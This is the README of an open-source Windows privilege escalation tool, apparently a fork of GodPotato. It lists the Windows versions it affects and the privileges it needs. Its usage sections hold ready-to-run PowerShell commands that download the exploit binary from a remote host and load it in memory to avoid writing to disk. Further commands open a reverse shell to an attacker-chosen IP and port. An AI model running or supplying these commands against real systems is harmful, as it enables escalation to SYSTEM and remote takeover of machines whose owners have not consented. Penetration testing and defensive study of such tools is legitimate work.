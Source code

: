
This gaudy repository is a derivative of the [GodPotato](https://github.com/BeichenDream/GodPotato) project, 
aiming to enhance the original work's functionality and user-friendliness.  With my bread-and-butter generally
being PowerShell implementation and visual formatting, the primary focus is on enhancing PowerShell support
and output verbosity for a more intuitive and effective user experience.

![Banner](https://cdn.discordapp.com/attachments/855920119292362802/1142248666950803486/image.png)


## Table of Contents

1. [**``Added Functionality over the Original``**](#addedFunctionality)
2. [**``Windows OS Version Compatibility``**](#versionCompatiblity)
3. [**``General Usage``**](#generalUsage)
    - [**``Usage from Disk via the Binary``**](#binaryUsage)
	- [**``Usage from Memory via .NET Reflection``**](#reflectionUsage)
	- [**``Error Correction``**](#errorCorrection)
4. [**``Credits & Thanks``**](#credits)
	- [**``BeichenDream``**](#beichenDream)
	- [**``NukingDragons``**](#nukingDragons)
5. [**``License``**](#license)


## Added Functionality over the Original <a name="addedFunctionality"></a>

### v1.0.0
```
[+] Support for execution from memory via .NET reflection.
    o (allows privilege escalation without writing a binary to disk)
    o (help page includes syntax for both local and remote reflection)
	
[+] Built in reverse shell functionality using '--revshell'.
    o (reverse shell is a custom PowerShell-based payload)
	
[+] Bypassed the 1024 max character limit when executing PowerShell commands.
    o (accomplished via exploiting process environment block inheritance)
    o (theoretical character limit: 32,767)
	
[+] Streamlined tool usage by utilizing implied variables over specified variables.
    o (e.g., no more needing to specifiy the '-cmd' parameter)
	
[+] Enhanced visual formatting of PowerShell process output.
    o (e.g., voiding PowerShell's serialization format "#< CLIXML")
	
[+] Increased output verbosity and visual formatting.
    o (error output verbosity by including suggestions for common error messages)
    o (process outputting and usage help vastly improved)
```

### Work-in-Progress (WIP)
```
[+] Introduce '--interactive' process support.
    o (this will require 'SeAssignPrimaryTokenPrivilege')
    
[+] Streamline usage when using .NET reflection.
    o (e.g., adjust namespace allowing execution like '[SigmaPotato]::Main("<command>")')
    o (find workaround for current reflection stdout processing, aka environmental variables) 
```


## Windows OS Version Compatibility <a name="versionCompatiblity"></a>

For this project I compiled two different binaries for maximum compatibility.  The default
**``SigmaPotato.exe``** has been tested and validated on a fresh installation of every Windows
operating system, from **``Windows 8/8.1 to Windows 11``** *and* **``Windows Server 2012 to Windows
Server 2019``**. The only *"issue"* with this binary is that .NET reflection does not work with PowerShell Core.

The separate **``SigmaPotatoCore.exe``** was compiled with .NET Framework v2.0 and supports .NET
reflection on PowerShell Core / .NET Core.  The downside is that this binary then requires
.NET Framework v3.5 (2.0 + 3.0) to be installed on the target system to work via normal binary 
execution.  So if you plan to only use reflection, this version would be optimal.

**TL;DR**

| Version | Compiled w/ | Binary Compatibility | Reflection Compatibility |
| --- | --- | --- | --- |
| **``SigmaPotato.exe``** | .NET Framework: ``v4.8`` | .NET Framework: ``Any`` | .NET Framework: ``Any (Non-Core)`` |
| **``SigmaPotatoCore.exe``** | .NET Framework: ``v2.0`` | .NET Framework: ``v3.5`` | .NET Framework: ``Any`` |

| Vulnerable Windows Versions |
| --- |
| Windows 8/8.1 - Windows 11 |
| Windows Server 2012 - Windows 2022 |


## General Usage <a name="generalUsage"></a>

**Requirements:**
```txt
Run as a user with 'SeImpersonatePrivilege' or 'SeAssignPrimaryTokenPrivilege' user rights.
```

Checking the help message with ``--help``

![Help](https://cdn.discordapp.com/attachments/855920119292362802/1142283537832235068/image.png)

### Usage from Disk via the Binary <a name="binaryUsage"></a>
---

The easiest way to use ``SigmaPotato`` is by interacting with the binary like you would any other program.
```powershell
# Execute a Command
./SigmaPotato.exe <command>


# Establish a PowerShell Reverse Shell
./SigmaPotato.exe --revshell <ip_addr> <port>


# Return Help Information
./SigmaPotato.exe --help
```

### Usage from Memory via .NET Reflection <a name="reflectionUsage"></a>
---

Prior to privilege escalation, we need to load ``SigmaPotato`` into memory using .NET reflection.

```powershell
# Load from a Local Binary already on Disk
[System.Reflection.Assembly]::LoadFile("$PWD/SigmaPotato.exe")


# Load from a Remotely Hosted Binary via a WebClient
$WebClient = New-Object System.Net.WebClient
$DownloadData = $WebClient.DownloadData("http(s)://<ip_addr>/SigmaPotato.exe")
[System.Reflection.Assembly]::Load($DownloadData)


# Load from a Remotely Hosted Binary via a WebClient (one-liner)
[System.Reflection.Assembly]::Load((New-Object System.Net.WebClient).DownloadData("http(s)://<ip_addr>/SigmaPotato.exe"))
```
- Note: running a simple HTTP server is sufficient for hosting (e.g., ``python -m http.server 80``)
---

Once the ``SigmaPotato`` namespace has been loaded into the current session, you can use it for privilege escalation.

```powershell
# Execute a Command
[SigmaPotato.Program]::Main("<command>")


# Establish a PowerShell Reverse Shell
$RevShell = @("--revshell", "<ip_addr>", "<port>")
[SigmaPotato.Program]::Main($RevShell)


# Establish a PowerShell Reverse Shell (one-liner)
[SigmaPotato.Program]::Main(@("--revshell","<ip_address>","<port>"))
```

### Error Correction <a name="errorCorrection"></a>
---

I made an active effort to document the majority of errors I came accross.
Hopefully this effort allows any error you come across to be quickly diagnosed.

**General usage corrections.**
```txt
PS C:\Users\JoeSchmoe> .\SigmaPotato.exe
[-] No arguments detected.  Use '--help' for usage information.


PS C:\Users\JoeSchmoe> .\SigmaPotato.exe cmd.exe /c whoami
[-] Unexpected arguments detected.  Use '--help' for usage information.
    o (Hint: You might need to wrap your arguments in quotations.)


PS C:\Users\JoeSchmoe> .\SigmaPotato.exe --revshell
[-] Reverse shell functionality is missing arguments.  Use '--help' for usage information.
    o (Hint: You need to specify an IP address and port.)
```

**Invalid filename (or filename not in the default path).**
![Invalid Filename](https://media.discordapp.net/attachments/855920119292362802/1142298026640162848/image.png)

**Command likely exceeds the character limit (but PowerShell commands should bypass this).**
![Command Too Long](https://media.discordapp.net/attachments/855920119292362802/1142298315539615754/image.png)

**User does not have 'SeImpersonatePrivilege' or 'SeAssignPrimaryTokenPrivilege' user rights.**
![Invalid Privileges](https://media.discordapp.net/attachments/855920119292362802/1142301106479837345/image.png)


## Credits & Thanks <a name="credits"></a>

- Enormous credit to [@BeichenDream](https://github.com/BeichenDream) for the original [GodPotato](https://github.com/BeichenDream/GodPotato) project.  I couldn't have made any of this without his
hard work. <a name="beichenDream"></a>

- Huge shoutout to [@NukingDragons](https://github.com/nukingdragons) for being way smarter than me
and helping with the local environment block bootstrap. <a name="nukingDragons"></a>


## License <a name="license"></a>

- [Apache License 2.0](/LICENSE)
